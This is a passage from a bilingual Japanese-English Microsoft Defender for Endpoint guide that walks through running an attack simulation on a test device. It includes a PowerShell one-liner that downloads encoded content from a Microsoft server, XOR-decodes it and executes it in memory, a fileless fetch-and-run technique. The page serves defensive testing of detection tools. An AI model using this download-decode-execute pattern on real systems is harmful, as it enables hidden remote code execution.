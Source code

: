    1. <span data-ttu-id="1d201-146">テスト デバイスが Microsoft Defender for Endpoint にオンボードされている[のを確認します。](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)</span><span class="sxs-lookup"><span data-stu-id="1d201-146">Verify that the test device is [onboarded to Microsoft Defender for Endpoint)](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

<span data-ttu-id="1d201-147">既存のテナントを使用してデバイス グループを実装する場合は、テスト デバイス用の専用デバイス グループを作成し、構成 UX で上位レベルにプッシュします。</span><span class="sxs-lookup"><span data-stu-id="1d201-147">If you use an existing tenant and implement device groups, create a dedicated device group for the test device and push it to top level in configuration UX.</span></span>

## <a name="run-the-attack-scenario-simulation"></a><span data-ttu-id="1d201-148">攻撃シナリオのシミュレーションを実行する</span><span class="sxs-lookup"><span data-stu-id="1d201-148">Run the attack scenario simulation</span></span>

<span data-ttu-id="1d201-149">攻撃シナリオのシミュレーションを実行するには、次のコマンドを実行します。</span><span class="sxs-lookup"><span data-stu-id="1d201-149">To run the attack scenario simulation:</span></span>

1. <span data-ttu-id="1d201-150">テスト ユーザー アカウントを使用してテスト デバイスにログインします。</span><span class="sxs-lookup"><span data-stu-id="1d201-150">Log in to the test device with the test user account.</span></span>

2. <span data-ttu-id="1d201-151">テスト デバイスWindows PowerShellウィンドウを開きます。</span><span class="sxs-lookup"><span data-stu-id="1d201-151">Open a Windows PowerShell window on the test device.</span></span>

3. <span data-ttu-id="1d201-152">次のシミュレーション スクリプトをコピーします。</span><span class="sxs-lookup"><span data-stu-id="1d201-152">Copy the following simulation script:</span></span>

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > <span data-ttu-id="1d201-153">Web ブラウザーでこのドキュメントを開いた場合、特定の文字を失わずにフル テキストをコピーしたり、改行を追加したりせずに問題が発生する可能性があります。</span><span class="sxs-lookup"><span data-stu-id="1d201-153">If you open this document on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks.</span></span> <span data-ttu-id="1d201-154">このドキュメントをダウンロードし、Adobe Reader で開きます。</span><span class="sxs-lookup"><span data-stu-id="1d201-154">Download this document and open it on Adobe Reader.</span></span>

4. <span data-ttu-id="1d201-155">プロンプトで、コピーしたスクリプトを貼り付け、実行します。</span><span class="sxs-lookup"><span data-stu-id="1d201-155">At the prompt, paste and run the copied script.</span></span>

> [!NOTE]
> <span data-ttu-id="1d201-156">リモート デスクトップ プロトコル (RDP) を使用して PowerShell を実行している場合は **、CTRL-V** ホットキーまたは右クリック貼り付けメソッドが機能しないので、RDP クライアントで [クリップボード テキストの種類] コマンドを使用します。</span><span class="sxs-lookup"><span data-stu-id="1d201-156">If you're running PowerShell using remote desktop protocol (RDP), use the Type Clipboard Text command in the RDP client because the **CTRL-V** hotkey or right-click-paste method might not work.</span></span> <span data-ttu-id="1d201-157">PowerShell の最近のバージョンでは、そのメソッドを受け入れれなく場合があります。最初にメモリ内の メモ帳 にコピーし、仮想マシンにコピーしてから PowerShell に貼り付ける必要があります。</span><span class="sxs-lookup"><span data-stu-id="1d201-157">Recent versions of PowerShell sometimes will also not accept that method, you might have to copy to Notepad in memory first, copy it in the virtual machine, and then paste it into PowerShell.</span></span>
